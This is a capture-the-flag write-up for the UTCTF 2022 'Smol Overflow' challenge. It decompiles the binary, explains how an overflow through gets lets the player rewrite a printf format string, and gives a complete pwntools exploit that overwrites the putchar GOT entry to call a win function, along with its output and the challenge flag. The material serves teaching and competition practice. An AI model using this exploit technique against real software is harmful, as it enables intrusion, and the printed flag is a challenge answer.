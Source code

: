 # UTCTF 2022

## Smol Overflow 

> You can have a little overflow, as a treat
> 
> By Tristan (@trab on discord)
>
> `nc pwn.utctf.live 5004` 
>
> [`smol`](smol)

Tags: _pwn_ _x86-64_ _bof_ _format-string_ _got-overwrite_ _remote-shell_


## Summary

Basic format-string GOT overwrite exploit with BOF to write out format string.  _win_ function included!


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Partial RELRO + No PIE = GOT overwrite or ROP if you have BOF and canary.


### Ghidra Decompile

```c
undefined8 main(void)
{
  char cVar1;
  int iVar2;
  ulong uVar3;
  char *pcVar4;
  long in_FS_OFFSET;
  byte bVar5;
  char local_158 [111];
  undefined4 uStack233;
  undefined2 uStack229;
  char local_78 [104];
  long local_10;
  
  bVar5 = 0;
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("What kind of data do you have?");
  gets(local_158);
  iVar2 = strcmp(local_158,"big data");
  if (iVar2 == 0) {
    uVar3 = 0xffffffffffffffff;
    pcVar4 = (char *)((long)&uStack233 + 1);
    do {
      if (uVar3 == 0) break;
      uVar3 = uVar3 - 1;
      cVar1 = *pcVar4;
      pcVar4 = pcVar4 + (ulong)bVar5 * -2 + 1;
    } while (cVar1 != '\0');
    *(undefined4 *)((long)&uStack233 + ~uVar3) = 0x30322025;
    *(undefined2 *)((long)&uStack229 + ~uVar3) = 0x73;
  }
  else {
    iVar2 = strcmp(local_158,"smol data");
    if (iVar2 == 0) {
      uVar3 = 0xffffffffffffffff;
      pcVar4 = (char *)((long)&uStack233 + 1);
      do {
        if (uVar3 == 0) break;
        uVar3 = uVar3 - 1;
        cVar1 = *pcVar4;
        pcVar4 = pcVar4 + (ulong)bVar5 * -2 + 1;
      } while (cVar1 != '\0');
      *(undefined4 *)((long)&uStack233 + ~uVar3) = 0x73352025;
      *(undefined *)((long)&uStack229 + ~uVar3) = 0;
    }
    else {
      puts("Error");
    }
  }
  puts("Give me your data");
  gets(local_78);
  printf((char *)((long)&uStack233 + 1),local_78);
  putchar(10);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return 0;
}
```

> _smol_ this isn't.  Most "smol" challenges are a few lines.  At least the solve is "smol".
>
> Not shown is the win function `get_flag`.  Clearly the objective is to execute that.

There's a few `gets` here we can exploit as well as `printf`.

The first prompt will change the format string if you enter `big data` or `smol data`.  None of this is important.

```
  char local_158 [111];
  undefined4 uStack233;
  undefined2 uStack229;
  char local_78 [104];
```

Above is how the variables are stacked up in the stack.  The format string is at `uStack233 + 1`:

```
  printf((char *)((long)&uStack233 + 1),local_78);
```

The `gets(local_158);` can be used to overwrite the format string, just send `0x158 - 233 + 1` of garbage then your format string.  It's that easy.  Why `0x158` and `233`?  Look at the variables above.  `local_158` is `0x158` bytes from the end of the stack frame.  `uStack233` is `233` (decimal) bytes from the end of the stack frame (Ghidra uses an underscore for hex).

The format string just needs to replace `putchar` with `get_flag` so that on `putchar(10);` invocation we get a shell.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./smol',checksec=False)

if args.REMOTE:
    p = remote('pwn.utctf.live', 5004)
else:
    p = process(binary.path)

offset = (0x158 - 233 + 1) // 8 + 6

payload  = b''
payload += (0x158 - 233 + 1) * b'A'
payload += fmtstr_payload(offset,{binary.got.putchar:binary.sym.get_flag})

assert(len(payload) < (0x158 - 0x78))

p.sendlineafter(b'have?\n',payload)
p.sendlineafter(b'data\n',b'')
p.interactive()
```

The `assert` is there to make sure our payload does not allow the second `gets` to _get_ in our way, if it did, we'd have to make sure to overwrite the rest of our payload correctly.  IOW, just keep it short.


```bash
# ./exploit.py REMOTE=1
[+] Opening connection to pwn.utctf.live on port 5004: Done
[*] Switching to interactive mode
$ cat flag.txt
utflag{just_a_little_salami15983350}
```